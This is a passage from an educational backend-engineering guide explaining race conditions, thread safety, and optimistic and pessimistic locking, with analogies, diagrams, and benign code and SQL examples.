Only *during a network partition* must each request give up either Consistency (answer with possibly stale data) or Availability (return an error or wait). Because partitions are unavoidable in a distributed system, "CA" isn't a real option; when there's no partition you can have both — and PACELC adds that you then trade latency against consistency.

</details>

**Q2. A user saves a new bio, the app writes it to the primary database, then reads from a read replica and shows the old bio. Which guarantee is missing, and how would you fix it?**
<details><summary>Show answer</summary>

Read-your-writes consistency is missing — the replica hasn't caught up yet (replication lag). Fix it by routing that user's reads to the primary for a short time after a write, waiting until the replica has applied the write, or simply showing the value the user just submitted.

</details>

**Q3. Why do etcd and ZooKeeper clusters use 3 or 5 nodes rather than 2 or 4?**
<details><summary>Show answer</summary>

They need a strict majority (quorum) to elect a leader or accept writes. 3 nodes tolerate 1 failure and 5 tolerate 2, while 2 nodes tolerate 0 and 4 nodes tolerate only 1 — the extra even node adds cost but no extra fault tolerance. A majority also guarantees only one side of a partition can act, preventing split brain.

</details>

**Q4. Wall clock vs monotonic clock vs Lamport clock: which would you use to (a) time how long a request took, (b) order events across servers, (c) show "created at" to a user?**
<details><summary>Show answer</summary>

(a) Monotonic clock — it never jumps backwards. (b) A logical clock (Lamport, vector, or hybrid logical clock), because wall clocks on different machines are skewed. (c) Wall clock — it's the only one that maps to calendar time humans understand.

</details>

**Q5. Your worker holds a Redis lock with a 30-second TTL, but a garbage-collection pause freezes it for 45 seconds. What can go wrong, and how do you protect against it?**
<details><summary>Show answer</summary>

The lock expires during the pause, a second worker acquires it, and then the first worker wakes up and writes too — two "owners" at once, possibly corrupting data. Protect against it with fencing tokens that the storage checks (rejecting older tokens), a consensus-based lock (etcd/ZooKeeper) for correctness-critical work, and idempotent operations or database constraints so duplicates are harmless.

</details>


## Part 9 — Concurrency & Memory

A real server handles hundreds or thousands of requests at the same time. When two of them touch the same data at the same moment, strange bugs show up: money disappears, the last ticket gets sold twice, or the whole app freezes. Programs also borrow memory all the time, and if they never give it back, they slowly fill up and crash. This part shows you how to spot, prevent and fix these problems, which are also some of the most common backend interview topics.

**🏠 The kitchen analogy (process vs thread vs async):**

- **Program** = a recipe book. It is just instructions sitting on a shelf.
- **Process** = a whole kitchen with its **own fridge** (its own private memory). Kitchen 1 cannot open Kitchen 2's fridge. If one kitchen catches fire, the others keep cooking. To share food, they must send a waiter between kitchens. In computer terms that is IPC (inter-process communication), such as pipes, sockets or HTTP.
- **Thread** = a **chef** inside one kitchen. All chefs in the same kitchen share the same fridge and counters. Teamwork is fast, but two chefs can grab the last egg at the same time. Most bugs in this part come from that.
- **Async / event loop** = **one very organised chef juggling many pots**. Put the pasta on to boil, chop onions while it cooks, answer the door while the oven runs. This works great when most of the time is spent *waiting* (on a database, the network, a disk) and only a little is spent *chopping* (using the CPU).
- **Concurrency vs parallelism:** *concurrency* means dealing with many tasks at once (one chef juggling). *Parallelism* means doing many tasks at the exact same instant (several chefs at several stoves, or several CPU cores).

```mermaid
flowchart LR
  subgraph Kitchen1["Process 1 = Kitchen 1"]
    ChefA["Thread A (chef)"]
    ChefB["Thread B (chef)"]
    Fridge1[("Shared memory (the fridge)")]
    ChefA --> Fridge1
    ChefB --> Fridge1
  end
  subgraph Kitchen2["Process 2 = Kitchen 2"]
    ChefC["Thread C (chef)"]
    Fridge2[("Its own private memory")]
    ChefC --> Fridge2
  end
  subgraph AsyncKitchen["Async = 1 chef, many pots"]
    EventLoop["Event loop (one chef)"]
    Pot1["Pot 1: waiting on DB"]
    Pot2["Pot 2: waiting on HTTP"]
    Pot3["Pot 3: waiting on disk"]
    EventLoop --> Pot1
    EventLoop --> Pot2
    EventLoop --> Pot3
  end
  Kitchen1 -.->|"IPC (a waiter)"| Kitchen2
```

| | Process | Thread | Async task |
|---|---|---|---|
| Memory | Private (own fridge) | Shared with other threads in the process | Shared (all on one thread) |
| Cost to create | Heavy | Medium | Very light |
| If it crashes | Only that process dies | Can take the whole process down | Can take the whole process down |
| Best for | Isolation, using many CPU cores | Parallel work sharing data | Lots of waiting on I/O (input/output) |
| Examples | Chrome's multi-process tabs, gunicorn workers, Python `multiprocessing` | Java threads, Python `threading`, Go goroutines (lightweight threads) | Node.js, Python `asyncio`, nginx |

```mermaid
flowchart LR
  Race["56 Race Conditions"] --> Safety["57 Thread Safety"]
  Safety --> Optimistic["58 Optimistic Locking"]
  Safety --> Pessimistic["59 Pessimistic Locking"]
  Pessimistic --> Dead["60 Deadlocks"]
  Leaks["61 Memory Leaks"] --> GC["62 Garbage Collection"]
```

---

### 56. Race Conditions

> **In one line:** A race condition is a bug where the result depends on *who gets there first* when two things happen at the same time.

**🏠 Real-life analogy:** You and your partner share a bank account with $100 in it. At the same moment, you are at an ATM downtown and they are at an ATM at the mall. Both ATMs check the balance ("$100, that's enough"), and both hand out $80. The bank has just paid out $160 from a $100 account. Neither ATM did anything wrong on its own. The bug only appears when they run *at the same time*.

**❓ What problem does it solve?** Knowing how races happen (and how to block them) protects you from a whole family of nasty bugs. Without that protection:
- **Lost updates:** two people update the same counter or balance, and one update silently disappears.
- **Overselling:** a shop sells the last item to 3 customers in a flash sale.
- **Double-booking:** two people get the same cinema seat, plane seat or hotel room.
- **Security holes:** attackers fire many requests at once to redeem one coupon many times.
- These bugs are *timing-dependent*, so they usually pass every test on your laptop and only show up under real traffic.

**⚙️ How it works:**
1. **The recipe for a race:** (a) some **shared state** (a variable, a DB row, a file), (b) at least one **writer**, and (c) **no coordination** between the people touching it. If all three are present, you have a race.
2. **Shape 1: read-modify-write.** `balance = balance - 80` looks like one step, but it is really three: **read** the value, **compute** a new value, **write** it back. If another thread sneaks in between the read and the write, someone's update is lost.
3. **Shape 2: check-then-act**, also called **TOCTOU** (Time-Of-Check to Time-Of-Use). `if seat is free: book seat`. Between the *check* and the *act*, the world can change, so you act on stale (out-of-date) information.
4. **Where it happens in web apps:** many threads in one server, many server instances behind a load balancer, many async requests in Node.js, a user double-clicking "Pay", automatic retries, two open browser tabs. All of these are "at the same time".
5. **The fixes** all work by making the dangerous steps *indivisible* or by detecting the clash:
   - **Atomic operations** do read+change+write as one unbreakable step. Examples: `UPDATE ... SET stock = stock - 1`, Redis `DECR`, Java `AtomicInteger`.
   - **Locks** let only one worker into the "critical section" (the dangerous code) at a time. See #57 and #59.
   - **Database constraints** make the database itself refuse impossible states: `UNIQUE` (no double booking), `CHECK (stock >= 0)` (no negative stock).
   - **Optimistic locking** lets everyone work, then rejects a save if the data changed in the meantime. See #58.
6. **Important:** a lock inside your Python or Java process only protects *that process*. If you run 5 servers, you need the protection in a shared place, such as the database or Redis.

```mermaid
sequenceDiagram
  participant A as Alice at ATM 1
  participant DB as Bank Database
  participant B as Bob at ATM 2
  Note over DB: balance = 100
  A->>DB: READ balance
  DB-->>A: 100
  B->>DB: READ balance
  DB-->>B: 100
  Note over A,B: Both check that 100 is enough for 80. Both say OK.
  A->>DB: WRITE balance = 100 - 80 = 20
  B->>DB: WRITE balance = 100 - 80 = 20
  Note over DB: balance = 20, but 160 was paid out
```

And the same situation with an atomic update. The database runs one statement at a time on that row, so the second buyer sees the true value:

```mermaid
sequenceDiagram
  participant A as Buyer A
  participant DB as Database
  participant B as Buyer B
  Note over DB: stock = 1
  A->>DB: UPDATE stock = stock - 1 WHERE stock is above 0
  DB-->>A: 1 row updated, you got it
  B->>DB: UPDATE stock = stock - 1 WHERE stock is above 0
  DB-->>B: 0 rows updated, sold out
```

**💻 Example:**

A Python counter that loses increments:

```python
import threading, time

counter = 0

def deposit():
    global counter
    for _ in range(10_000):
        current = counter        # 1. READ the shared value
        time.sleep(0)            #    (stands in for real work, e.g. a DB call)
        counter = current + 1    # 2. MODIFY + 3. WRITE it back

threads = [threading.Thread(target=deposit) for _ in range(4)]
for t in threads: t.start()
for t in threads: t.join()

print(counter)   # expected 40000, printed about 10019 on one run 😱
```

**Why does it lose increments?** Thread A reads `5` and then pauses. Thread B also reads `5`, writes `6`, and keeps going. Later Thread A wakes up and writes `6` too, which wipes out B's work. `time.sleep(0)` tells Python "you may switch threads now". Real code does the same thing every time it waits on a database or the network. Even a bare `counter += 1` is not guaranteed to be atomic. On some Python versions it may *happen* to give the right answer, and that is exactly what makes races dangerous: they hide until production.

The fix inside one process is a lock:

```python
lock = threading.Lock()

def deposit():
    global counter
    for _ in range(10_000):
        with lock:                 # only one thread at a time in here
            current = counter
            time.sleep(0)
            counter = current + 1  # now always 40000 ✅
```

The fix across many servers is to let the database do the check and the change in **one** statement:

```sql
-- ❌ Racy: read in the app, decide in the app, write back
SELECT stock FROM products WHERE id = 7;        -- both buyers see 1
UPDATE products SET stock = 0 WHERE id = 7;     -- both buyers "win"

-- ✅ Atomic: check + change in ONE statement
UPDATE products SET stock = stock - 1 WHERE id = ? AND stock > 0;
-- rows affected = 1  -> you got the item
-- rows affected = 0  -> sold out, show a friendly message

-- ✅ Safety nets: the database refuses impossible states
ALTER TABLE products ADD CONSTRAINT stock_not_negative CHECK (stock >= 0);
ALTER TABLE bookings ADD CONSTRAINT one_booking_per_seat UNIQUE (show_id, seat_no);
```

With the `UNIQUE` constraint, if two people try to book seat A12 for the same show, the second `INSERT` fails with a duplicate-key error. Your app catches it and says "Sorry, that seat was just taken."

**🌍 Real-world usage:**
- **E-commerce and ticketing** sites decrement inventory with atomic SQL updates or Redis `DECR`/`INCR`, which are atomic by design. That is why Redis is a popular choice for flash-sale counters.
- **Booking systems** (airlines, cinemas, hotels) rely on `UNIQUE` constraints and row locks (#59) so a seat can only be sold once.
- **Security:** in 2015, a security researcher showed that sending many simultaneous "transfer balance" requests between Starbucks gift cards could create extra money. It was a classic check-then-act race. The Linux kernel bug "Dirty COW" (CVE-2016-5195) was also a race condition, and it let normal users gain root access.
- **Safety-critical history:** race conditions in the software of the Therac-25 radiation therapy machine (1980s) contributed to deadly overdoses. Race conditions were also part of the alarm-system failure behind the 2003 Northeast US blackout.
- **Tools that find races:** Go's race detector (`go test -race`), ThreadSanitizer for C/C++, and load tests that fire many identical requests at once.

**⚖️ Trade-offs:**

| Fix | When to use | Downside |
|---|---|---|
| Atomic SQL / Redis `INCR` | Counters, stock, balances | Only works for simple operations |
| In-process lock | Shared data inside one process | Useless across multiple servers, and it slows things down |
| DB constraints (`UNIQUE`, `CHECK`) | Rules that must never break | You must handle the error; it is a last line of defense |
| Optimistic locking (#58) | Conflicts are rare | Needs retries or "please reload" messages |
| Pessimistic locking (#59) | Conflicts are frequent | Waiting, and a risk of deadlocks (#60) |

**⚠️ Common mistakes:**
- Testing with a single user and concluding "it works". Races need concurrent load to appear.
- Using an in-memory lock (`threading.Lock`, `synchronized`) when the app runs on many servers or pods.
- Doing `SELECT` in the app and then `UPDATE` with the computed value, instead of one atomic `UPDATE`.
- Thinking async or single-threaded code (Node.js) cannot race. Every `await` is a gap where other requests run.
- Forgetting that double-clicks and client retries are concurrent requests too. Use idempotency keys and unique constraints.

**🎯 Remember:** Whenever you *read, decide, then write*, ask "what if someone else does the same thing in between?" Make the check and the change one atomic step, or let the database enforce the rule.

**🔗 See also:** [#57 Thread Safety](#57-thread-safety), [#58 Optimistic Locking](#58-optimistic-locking), [#59 Pessimistic Locking](#59-pessimistic-locking), [#60 Deadlocks](#60-deadlocks)

---

### 57. Thread Safety

> **In one line:** Code is thread-safe if it still gives correct results when many threads use it at the same time, in any order.

**🏠 Real-life analogy:** Picture an office whiteboard that everyone can scribble on at once. Messages get written over each other and nobody can read anything. You have a few ways to fix this. You can make it a **printed poster** that nobody edits (immutability). You can give everyone their **own notepad** (confinement). You can have **one marker** that only one person may hold at a time (a lock). Or you can have people drop notes in an **inbox tray** that one person processes in order (message passing).

**❓ What problem does it solve?** When code is not thread-safe:
- Counters and balances drift ("we sold 1,000 items but stock only dropped by 993").
- Data structures get corrupted. For example, Java's plain `HashMap` is not thread-safe, and concurrent writes can break its internal structure.
- You get crashes that happen once a week and can never be reproduced on purpose. Engineers call these "Heisenbugs".
- One user's data leaks into another user's request, because both requests wrote to the same global variable.

**⚙️ How it works:**
1. A **thread** is a worker running inside a process. All threads of a process share its memory. **Thread-safe** means correct no matter how the threads' steps get interleaved (shuffled together).
2. **Shared mutable state is the enemy.** Trouble needs all three ingredients: data that is **shared**, **mutable** (changeable) and **unsynchronized** (no coordination). Remove any one and you are safe.
3. The parts of code that touch shared mutable state are called **critical sections**. Those are what you must protect.
4. The main techniques:

| Technique | The idea in plain words | Examples |
|---|---|---|
| **Immutability** | Data never changes after it is created, so sharing it read-only is always safe | Java `String` and `record`, `DateTimeFormatter`; Python tuples, frozen dataclasses |
| **Confinement / thread-local** | Don't share: each thread gets its own copy | Python `threading.local()`, Java `ThreadLocal`, per-request objects |
| **Mutex / lock** | Only one thread at a time may enter the critical section | Python `threading.Lock`, Java `synchronized` / `ReentrantLock`, Go `sync.Mutex` |
| **Atomics** | The CPU does read-modify-write as one single step | Java `AtomicInteger`, Go `sync/atomic`, C++ `std::atomic`, Redis `INCR` |
| **Concurrent collections** | Data structures with safety built in | Java `ConcurrentHashMap`, `BlockingQueue`; Python `queue.Queue` |
| **Message passing** | Don't share memory. Send messages to the one owner of the data | Go channels, Erlang/Elixir processes, Akka actors |

5. **Go's motto:** "Do not communicate by sharing memory; instead, share memory by communicating." Only one goroutine *owns* the data, and others send it requests over a channel. No locks are needed because nobody else ever touches the data.
6. **Visibility matters too.** CPUs cache values, so one thread might not *see* another thread's write right away. Locks and atomics also guarantee visibility. In Java, the `volatile` keyword guarantees visibility (but not atomicity).
7. **Python's GIL is not a safety net.** CPython (the standard Python) has a **GIL** (Global Interpreter Lock): only one thread runs Python bytecode at a time. That protects Python's *internals* (a `list` won't get corrupted), but Python can switch threads *between* the steps of your code. So compound operations like `if key not in d: d[key] = ...` or read-then-write still race. Python 3.13 also ships an optional, experimental "free-threaded" build with no GIL, so correct locking matters even more.
8. **Node.js is single-threaded, but it still races.** Node runs your JavaScript on one thread with an **event loop**, so two synchronous lines never interleave. But every `await` is a pause point where *other requests run*. "Read, await, write" is a race in Node too.

```mermaid
flowchart TD
  Shared{"Is this data shared<br/>between threads?"}
  Shared -->|"No"| SafeConfined["Safe: confinement<br/>(each thread owns its copy)"]
  Shared -->|"Yes"| Mutable{"Can it change after<br/>it is created?"}
  Mutable -->|"No"| SafeImmutable["Safe: immutable"]
  Mutable -->|"Yes"| Pick{"Pick a coordination tool"}
  Pick --> Lock["Lock / mutex"]
  Pick --> Atomic["Atomic operation"]
  Pick --> Coll["Concurrent collection"]
  Pick --> Msg["Message passing<br/>(one owner + a queue)"]
```

**💻 Example:**

A thread-safe bank account in Python. The lock makes "check balance" and "subtract" one unbreakable unit:

```python
import threading

class BankAccount:
    def __init__(self, balance):
        self.balance = balance
        self._lock = threading.Lock()      # one lock guards self.balance

    def withdraw(self, amount):
        with self._lock:                   # only one thread inside at a time
            if self.balance >= amount:     # CHECK...
                self.balance -= amount     # ...and ACT, together
                return True
            return False

acct = BankAccount(100)
results = []
threads = [threading.Thread(target=lambda: results.append(acct.withdraw(80)))
           for _ in range(10)]
for t in threads: t.start()
for t in threads: t.join()
print(results.count(True), acct.balance)   # 1 20  -> exactly one withdrawal ✅
```

Message passing with `queue.Queue`. The queue is thread-safe, so you don't need your own lock:

```python
import queue, threading

jobs = queue.Queue()                     # thread-safe FIFO (first in, first out)

def worker(name):
    while True:
        order_id = jobs.get()            # blocks until a job is available
        if order_id is None:             # sentinel value = "time to stop"
            break
        print(f"{name} packed order {order_id}")

workers = [threading.Thread(target=worker, args=(f"W{i}",)) for i in range(3)]
for w in workers: w.start()
for order_id in range(10): jobs.put(order_id)
for _ in workers: jobs.put(None)         # one stop signal per worker
for w in workers: w.join()
```

Node.js is single-threaded but still racy across `await`:

```js
// ❌ Other requests run during each 'await', so two users can both see 'free'
async function reserveSeat(seatId, userId) {
  const seat = await db.query('SELECT status FROM seats WHERE id = $1', [seatId]);
  if (seat.rows[0].status === 'free') {                       // CHECK
    await db.query('UPDATE seats SET status = $1, user_id = $2 WHERE id = $3',
                   ['taken', userId, seatId]);                // ACT (too late!)
  }
}

// ✅ Make check + act ONE atomic statement
async function reserveSeatSafe(seatId, userId) {
  const r = await db.query(
    "UPDATE seats SET status = 'taken', user_id = $1 WHERE id = $2 AND status = 'free'",
    [userId, seatId]);
  return r.rowCount === 1;     // true = you got it, false = someone beat you
}
```

**🌍 Real-world usage:**
- **Java** has a whole toolbox in `java.util.concurrent`: `ConcurrentHashMap`, `AtomicLong`, `BlockingQueue`, `ExecutorService`. A classic bug is sharing one `SimpleDateFormat` across threads, because it is *not* thread-safe. Its modern replacement, `DateTimeFormatter`, is immutable and safe.
- **Spring** beans are singletons by default. Storing per-request data in a field of a bean leaks data between users. Keep request data in local variables.
- **Flask** makes `request` a context-local object, so each request sees its own data even with many threads.
- **Go** encourages channels and has a built-in race detector (`go run -race`).
- **Rust's compiler** refuses to compile many data races, using its ownership rules and the `Send`/`Sync` traits ("fearless concurrency").
- **Erlang/Elixir** use the actor model: lightweight processes that share nothing and only send messages. WhatsApp famously built its messaging backend on Erlang.

**⚖️ Trade-offs:**

| Technique | Pros | Cons |
|---|---|---|
| Immutability | Simple, always safe, no locks | Creating new copies costs memory and CPU |
| Confinement | No coordination needed | Data can't be shared, so you may need to merge results later |
| Locks | Flexible, works for any code | Slower under contention (many threads fighting), deadlock risk (#60) |
| Atomics | Very fast for single values | Only for simple operations like counters and flags |
| Concurrent collections | Safety built in, well tested | Individual calls are safe, but *combinations* of calls are not |
| Message passing | Easy to reason about, scales to many machines | Extra latency, queues can back up |

**⚠️ Common mistakes:**
- Believing the Python GIL makes your code thread-safe. It only protects single bytecode steps, not your logic.
- Calling two safe operations in a row and assuming the pair is safe: `if (!map.containsKey(k)) map.put(k, v)`. Use the atomic `putIfAbsent` / `computeIfAbsent` (Java) or `dict.setdefault` (Python).
- Holding a lock while doing slow I/O (an HTTP call, a disk write). Every other thread waits in line.
- Locking writes but not reads, so readers see half-updated data.
- Storing request or user data in globals, static fields or singleton objects.

**🎯 Remember:** Shared + mutable + unsynchronized = bug. Remove any one of the three: don't share, don't mutate, or coordinate with a lock, atomic or queue.

**🔗 See also:** [#56 Race Conditions](#56-race-conditions), [#59 Pessimistic Locking](#59-pessimistic-locking), [#60 Deadlocks](#60-deadlocks)

---


### 58. Optimistic Locking

> **In one line:** Let everyone work freely, and when someone saves, check "has anyone changed this since I read it?" If yes, reject the save.

**🏠 Real-life analogy:** A community noticeboard has a recipe card stamped "version 7". You take a photo, edit it at home, and come back to pin up your new card. The librarian checks: "Is the board still showing version 7?" If yes, your card goes up as version 8. If someone pinned their own version 8 while you were away, the librarian says: "Sorry, it changed. Please read the new one and redo your edits." Nobody had to *reserve* the board while you were thinking at home.

**❓ What problem does it solve?** It prevents the **lost update** problem without making people wait:
- Alice and Bob both open the same wiki page. Alice saves first. Bob saves a minute later, and his save **silently overwrites** Alice's work ("last write wins").
- You could lock the page while someone is editing, but people open edit forms and go to lunch. Locks held for minutes would block everyone else.
- Optimistic locking holds **no lock at all** while people think. It only checks for a clash at the moment of saving.

**⚙️ How it works:**
1. **Add a version column** to the table, for example `version INT NOT NULL DEFAULT 1`. Some systems use an `updated_at` timestamp or a hash of the content instead.
2. **Read** the row *and* its version: "page 42, version 7". Send the version to the client, for example as a hidden form field or in an HTTP `ETag` header.
3. **Write conditionally:** `UPDATE ... SET ..., version = version + 1 WHERE id = ? AND version = ?`. The update only matches if the version is *still* the one you read.
4. **Check the rows affected:**
   - `1` means success. You won, and the version is now 8.
   - `0` means conflict. Someone else saved first (or deleted the row).
5. **On conflict, choose:**
   - **Retry automatically** for machine updates (re-read, recompute, try again, with a retry limit and a small backoff).
   - **Tell the user** for human edits: "This page changed while you were editing. Here are the differences."
6. **The HTTP version of the same idea:** the server sends `ETag: "7"` (a version tag) with the resource. The client sends `If-Match: "7"` with its `PUT`/`PATCH`. If the current ETag is not `"7"` anymore, the server answers **`412 Precondition Failed`**. A server can also demand that clients send `If-Match` by answering `428 Precondition Required` when it's missing.
7. Other names you will hear: **OCC** (Optimistic Concurrency Control), or **compare-and-swap (CAS)**. CPUs use the same "only write if the value is still what I expect" idea to build atomic operations.
8. **Best when conflicts are rare.** Most of the time nobody else touched the row, so you pay almost nothing.

```mermaid
sequenceDiagram
  participant A as Alice
  participant W as Wiki Server
  participant B as Bob
  A->>W: GET page 42
  W-->>A: text + version 7
  B->>W: GET page 42
  W-->>B: text + version 7
  Note over A,B: Both edit their own copies at the same time
  A->>W: SAVE page 42, I started from version 7
  Note over W: UPDATE WHERE version = 7, 1 row changed, now version 8
  W-->>A: 200 OK, saved as version 8
  B->>W: SAVE page 42, I started from version 7
  Note over W: UPDATE WHERE version = 7, 0 rows changed
  W-->>B: Conflict, page changed since you loaded it
  B->>W: GET page 42 again, merge changes, save with version 8
```

**💻 Example:**

The core SQL:

```sql
ALTER TABLE pages ADD COLUMN version INT NOT NULL DEFAULT 1;

-- Read: remember the version you saw
SELECT id, body, version FROM pages WHERE id = 42;     -- version = 7

-- Write: succeed ONLY if it is still version 7
UPDATE pages
   SET body = 'new text', version = version + 1
 WHERE id = 42 AND version = 7;
-- rows affected: 1 = saved ✅    0 = conflict ❌ (someone saved first)
```

In application code (Python), always check `rowcount`:

```python
class ConflictError(Exception):
    pass

def save_page(conn, page_id, new_body, version_seen):
    # version_seen = the version the user had when they OPENED the editor
    cur = conn.execute(
        """UPDATE pages
              SET body = %s, version = version + 1
            WHERE id = %s AND version = %s""",
        (new_body, page_id, version_seen))
    if cur.rowcount == 0:                     # nothing matched -> someone won
        raise ConflictError("This page changed while you were editing.")

def append_tag(conn, page_id, tag, attempts=3):
    for _ in range(attempts):                 # machines can just re-read + retry
        body, version = conn.execute(
            "SELECT body, version FROM pages WHERE id = %s", (page_id,)).fetchone()
        try:
            return save_page(conn, page_id, body + f"\n#{tag}", version)
        except ConflictError:
            continue
    raise ConflictError("Too many conflicts, giving up")
```

Over HTTP with `ETag` and `If-Match`:

```http
GET /api/pages/42 HTTP/1.1

HTTP/1.1 200 OK
ETag: "7"

PUT /api/pages/42 HTTP/1.1
If-Match: "7"
Content-Type: application/json

{"body": "my new text"}

HTTP/1.1 412 Precondition Failed
```

ORMs (Object-Relational Mappers, libraries that map tables to classes) can do all of this for you:

```java
// JPA / Hibernate
@Entity
public class Page {
    @Id private Long id;
    private String body;

    @Version              // JPA adds "AND version = ?" and bumps it automatically
    private Long version;
}
// On conflict JPA throws OptimisticLockException
```

```ruby
# Ruby on Rails: add an integer column named lock_version (default 0)
page = Page.find(42)
page.update!(body: "new text")   # raises ActiveRecord::StaleObjectError on conflict
```

**🌍 Real-world usage:**
- **Wikipedia** (MediaWiki) shows an "Edit conflict" page when someone saved the article after you started editing.
- **Kubernetes** stores a `resourceVersion` on every object. Updating with a stale version is rejected with `409 Conflict` ("the object has been modified; please apply your changes to the latest version and try again"). Controllers simply re-read and retry.
- **Amazon DynamoDB** supports conditional writes (for example, "only update if `version = :v`"), and a failed condition raises `ConditionalCheckFailedException`.
- **Elasticsearch** uses `if_seq_no` + `if_primary_term`, and **CouchDB** requires the document's current `_rev` on every update. Both are optimistic concurrency control.
- **Google Cloud Storage** supports preconditions such as `ifGenerationMatch` on writes.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| No locks held, so nobody waits while users think | Under heavy contention, many saves fail and retry, wasting work |
| Scales well and works across many servers | Users may have to redo or merge their edits |
| Works naturally over stateless HTTP (`ETag` / `If-Match`) | Every write path must use the version check, or it is bypassed |
| Can't cause database deadlocks | Needs an extra column and conflict-handling code |

**⚠️ Common mistakes:**
- Forgetting to check rows affected. The `UPDATE` "succeeds" with 0 rows and the change silently disappears.
- Re-reading the version just before saving, instead of using the version the user *originally* saw. That defeats the whole point.
- Retrying forever under heavy contention. Add a retry limit and backoff, or switch to pessimistic locking (#59).
- Some code path (a raw SQL script, an admin tool) updates the row without bumping the version.
- Using a low-resolution timestamp as the version, so two updates in the same millisecond look identical.

**🎯 Remember:** Optimistic locking = "assume no conflict, verify at save time." Use `WHERE version = ?`, check rows affected, and on `0` retry or ask the user. It's great when conflicts are rare.

**🔗 See also:** [#56 Race Conditions](#56-race-conditions), [#59 Pessimistic Locking](#59-pessimistic-locking), [#57 Thread Safety](#57-thread-safety)

---

### 59. Pessimistic Locking

> **In one line:** Grab a lock on the data *before* you work on it, so nobody else can change it until you are done.

**🏠 Real-life analogy:** A single-person changing room in a shop has a lock on the door. You go in and lock it. Everyone else waits in line until you come out. Nobody ever walks in on you, but if you take 20 minutes, the queue gets long and angry. That is pessimistic locking: "assume someone *will* interfere, so lock first."

**❓ What problem does it solve?**
- When **many people fight over the same row** (the last 50 tickets for a popular concert, one hot bank account), optimistic locking (#58) would make most saves fail and retry again and again.
- For **money and ledgers**, you often want a strict "one at a time" order on an account, with no surprise conflict errors.
- It turns a risky check-then-act (#56) into a safe sequence: lock the row, check it, change it, release it.

**⚙️ How it works:**
1. **Start a transaction** (`BEGIN`). Locks live until the transaction ends.
2. **Lock the rows** with `SELECT ... FOR UPDATE`. The database puts a row-level lock on the matching rows. Any other transaction that tries to `UPDATE`, `DELETE` or `SELECT ... FOR UPDATE` those rows must **wait**.
   - In PostgreSQL and MySQL (InnoDB), plain `SELECT`s are *not* blocked. They read the last committed version thanks to MVCC (multi-version concurrency control).
3. **Check and change** the data safely. Nobody else can modify it now.
4. **`COMMIT` or `ROLLBACK`** releases the locks, and the next waiter goes.
5. **Lock waits and timeouts:** a waiting transaction may wait a long time. Set limits so requests don't pile up:
   - PostgreSQL: `SET lock_timeout = '3s'` makes it fail with an error after 3 seconds of waiting.
   - MySQL InnoDB: `innodb_lock_wait_timeout` (default 50 seconds).
6. **`NOWAIT`**: "if it's locked, fail immediately instead of waiting." Good for "this seat is being booked by someone else right now, pick another".
7. **`SKIP LOCKED`**: "if a row is locked, skip it and give me the next free one." This turns PostgreSQL into a solid **job queue**: many workers grab different jobs without ever blocking each other.
8. **Variants:**
   - `FOR SHARE` lets others read-lock the row, but nobody can modify it.
   - Table locks lock a whole table.
   - PostgreSQL **advisory locks** (`pg_advisory_lock`) lock an app-defined number instead of a row.
   - Distributed locks (Redis, ZooKeeper, etcd) lock things across many services.
9. **The golden rule:** keep the locked section **short**. Never hold a lock while waiting for a user, a slow API or a payment gateway.

```mermaid
sequenceDiagram
  participant A as Buyer A
  participant DB as PostgreSQL
  participant B as Buyer B
  A->>DB: BEGIN and SELECT seat A12 FOR UPDATE
  DB-->>A: status free, row now locked by A
  B->>DB: BEGIN and SELECT seat A12 FOR UPDATE
  Note over DB,B: B must WAIT because the row is locked
  A->>DB: UPDATE seat A12 to booked, then COMMIT
  Note over DB: lock released
  DB-->>B: status booked
  B->>DB: ROLLBACK, show seat already taken
```

```mermaid
flowchart LR
  subgraph JobsTable["jobs table"]
    Job1["Job 1 (locked by Worker 1)"]
    Job2["Job 2 (locked by Worker 2)"]
    Job3["Job 3 (free)"]
    Job4["Job 4 (free)"]
  end
  Worker1["Worker 1"] --> Job1
  Worker2["Worker 2"] --> Job2
  Worker3["Worker 3"] -->|"SKIP LOCKED jumps over jobs 1 and 2"| Job3
```

**💻 Example:**

Booking a seat with a row lock (PostgreSQL):

```sql
BEGIN;
SET LOCAL lock_timeout = '3s';          -- don't wait forever for the lock

SELECT status FROM seats
 WHERE show_id = 9 AND seat_no = 'A12'
   FOR UPDATE;                          -- lock this row until COMMIT/ROLLBACK

-- the app checks that status = 'free', then:
UPDATE seats SET status = 'booked', user_id = 42
 WHERE show_id = 9 AND seat_no = 'A12';
COMMIT;                                 -- lock released here
```

Fail fast instead of waiting:

```sql
SELECT * FROM seats WHERE id = 7 FOR UPDATE NOWAIT;
-- ERROR: could not obtain lock on row in relation "seats"
-- -> tell the user "someone is booking this seat right now"
```

PostgreSQL as a job queue: each worker grabs one job that nobody else is processing:

```sql
UPDATE jobs
   SET status = 'running', started_at = now()
 WHERE id = (
       SELECT id FROM jobs
        WHERE status = 'pending'
        ORDER BY created_at
        LIMIT 1
          FOR UPDATE SKIP LOCKED      -- ignore rows other workers have locked
     )
RETURNING id, payload;
-- 10 workers can run this at once and each gets a DIFFERENT job
```

**🌍 Real-world usage:**
- **Banking and ledgers** lock the account rows involved in a transfer, so balances can never go wrong mid-transfer.
- **Ticketing and seat selection** for high-demand events, where many buyers hit the same few rows at once.
- **Job queues built on PostgreSQL** use `FOR UPDATE SKIP LOCKED`. Examples are Rails' Solid Queue, Elixir's Oban and Node's graphile-worker, which let teams skip running a separate queue system.
- **Inventory reservation** in e-commerce checkouts often locks the stock row for the few milliseconds it takes to reserve items.

**⚖️ Trade-offs:**

| | Optimistic locking (#58) | Pessimistic locking (#59) |
|---|---|---|
| Mindset | "Conflicts are rare, check at the end" | "Conflicts are likely, lock first" |
| When the lock is taken | Never (just a version check at save time) | Before reading or changing the data |
| What a loser experiences | Save fails, must retry or merge | Waits in line (or fails fast with `NOWAIT`) |
| Cost with no conflicts | Almost zero | Lock overhead on every operation |
| Cost with many conflicts | Lots of wasted work and retries | Queueing and waiting, but no wasted work |
| Main risk | Retry storms, annoyed users | Deadlocks (#60), long waits, exhausted connection pools |
| Works across HTTP requests | Yes (`ETag` / `If-Match`) | No, locks only live inside one DB transaction |
| Best for | Wiki pages, profiles, settings, Kubernetes objects | Hot concert tickets, bank ledgers, job queues |

**⚠️ Common mistakes:**
- Running `SELECT ... FOR UPDATE` outside a transaction. In autocommit mode the lock is released as soon as the statement ends, so it protects nothing.
- Holding the lock while calling slow things (payment APIs, emails, user input). Every other request waits behind you.
- No `lock_timeout`, so requests pile up waiting, the connection pool runs out, and the whole site slows down.
- Locking rows in a different order in different code paths, which causes deadlocks (#60).
- Locking far more rows than needed (a missing `WHERE` condition or a missing index).

